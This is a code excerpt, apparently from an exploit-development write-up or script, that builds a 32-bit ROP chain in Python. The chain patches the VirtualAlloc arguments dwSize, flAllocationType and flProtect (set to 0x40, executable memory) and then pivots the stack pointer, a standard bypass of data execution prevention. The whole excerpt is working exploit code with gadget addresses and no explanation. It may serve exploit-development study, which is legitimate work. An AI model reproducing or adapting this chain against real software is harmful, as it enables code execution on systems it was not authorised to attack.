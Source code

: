```python
    rop += pack('<L', 0x100cdc7a)    # xchg eax, ebp ; ret  ;
    rop += pack('<L', 0x1002f729)    # pop eax ; ret ;
    rop += pack('<L', 0xfffffe3c)    # pop eax ; ret ;
    rop += pack('<L', 0x1010ccc3)    # neg eax ; ret ;
    rop += pack('<L', 0x100fcd71)    # add eax, ebp ; dec ecx ; ret ;
    rop += pack('<L', 0x1012d24e)    # mov [edx], eax ; ret ; 
    rop += pack('<L', 0x100bb1f4)    # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4)    # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4)    # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4)    # inc edx ; ret ;
    rop += pack('<L', 0x1012d24e)    # mov [edx], eax ; ret ; 

    #[--Moving along the stack to dwSize--]
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ;

    #[--Patching dwSize--]
    rop += pack('<L', 0x1012b413)    # pop eax ; ret ;
    rop += pack('<L', 0xffffffff)    # -0x1
    rop += pack('<L', 0x1010ccc3)    # neg eax ; ret ;
    rop += pack('<L', 0x1012d24e)    # mov [edx], eax ; ret ; 

    #[--Moving along the stack to flAllocationType--]
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ;

    #[--Patching flAllocationType--]
    rop += pack('<L', 0x1012b413) # pop eax ; ret ;
    rop += pack('<L', 0xfffff001) # -0x1001
    rop += pack('<L', 0x1001181d) # dec eax ; ret  ; 
    rop += pack('<L', 0x1010ccc3) # neg eax ; ret ;
    rop += pack('<L', 0x1012d24e) # mov [edx], eax ; ret ; 

    #[--Moving along the stack to flProtect--]
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ;

    #[--Patching flProtect--]
    rop += pack('<L', 0x1012b413) # pop eax ; ret ;
    rop += pack('<L', 0xffffffc0) # -0x40 (flProtect)
    rop += pack('<L', 0x1010ccc3) # neg eax ; ret ;
    rop += pack('<L', 0x1012d24e) # mov [edx], eax ; ret ;

    #[--Align ESP with VA Skeleton--]
    rop += pack('<L', 0x10129afb) # mov eax, edx ; ret  ; 
    rop += pack('<L', 0x10154336) # pop ebp ; ret ;
    rop += pack('<L', 0xffffffec) # -14
    rop += pack('<L', 0x100fcd71) # add eax, ebp ; dec ecx ; ret ;
    rop += pack('<L', 0x101394a9) # xchg eax, esp ; ret ; 
```
